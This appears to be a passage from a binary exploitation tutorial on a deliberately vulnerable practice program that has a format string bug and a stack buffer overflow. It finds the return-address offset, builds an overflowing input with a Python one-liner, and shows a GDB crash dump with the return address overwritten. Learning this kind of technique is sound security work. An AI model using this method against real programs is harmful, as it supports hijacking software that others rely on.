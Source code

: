 Assume that NX and stack canaries are disabled. The `printf(buf1)` call is clearly vulnerable to a format string exploit since the user controls what's in `buf1`. The `fgets(buf2, 300, stdin)` is vulnerable to a stack buffer overflow because it is trying to read 300 bytes of data into a 100 byte buffer. After doing some poking around, one can see that the return address is located 232 bytes into the second buffer.
```
$ python3 -c "print('A\n'+'A'*232+'BBBBBBBB')" > test                                                    130 ⨯
$ ./buffers < test
Enter your input for the first buffer (fmt str vuln): A
zsh: segmentation fault  ./buffers < test
```

As proof, here is what this looks like in GDB. Note that the return address on the stack has been overwritten with B's after 232 bytes have been written to the second buffer.
```
$ gdb buffers                                                                                            139 ⨯
GNU gdb (Debian 10.1-1.4) 10.1
Copyright (C) 2020 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
Type "show copying" and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<https://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
    <http://www.gnu.org/software/gdb/documentation/>.

For help, type "help".
Type "apropos word" to search for commands related to "word"...
GEF for linux ready, type `gef' to start, `gef config' to configure
76 commands loaded for GDB 10.1 using Python engine 3.9
[*] 4 commands could not be loaded, run `gef missing` to know why.
Reading symbols from buffers...
(No debugging symbols found in buffers)
gef➤  r < test
Starting program: /home/nihaal/Desktop/buffers < test
Enter your input for the first buffer (fmt str vuln): A

Program received signal SIGSEGV, Segmentation fault.
0x00005555555552bb in main ()
[ Legend: Modified register | Code | Heap | Stack | String ]
────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$rax   : 0x0
$rbx   : 0x0
$rcx   : 0x00005555555597a3  →  0x0000000000000000
$rdx   : 0x0
$rsp   : 0x00007fffffffe028  →  "BBBBBBBB\n"
$rbp   : 0x4141414141414141 ("AAAAAAAA"?)
$rsi   : 0x00005555555596b2  →  "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
$rdi   : 0x00007ffff7fb0680  →  0x0000000000000000
$rip   : 0x00005555555552bb  →  <main+374> ret
$r8    : 0x00007fffffffdf40  →  "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
$r9    : 0x0
$r10   : 0x0000555555556040  →  "Enter your input for the second buffer (stack over[...]"
$r11   : 0x246
$r12   : 0x0000555555555060  →  <_start+0> xor ebp, ebp
$r13   : 0x0
$r14   : 0x0
$r15   : 0x0
```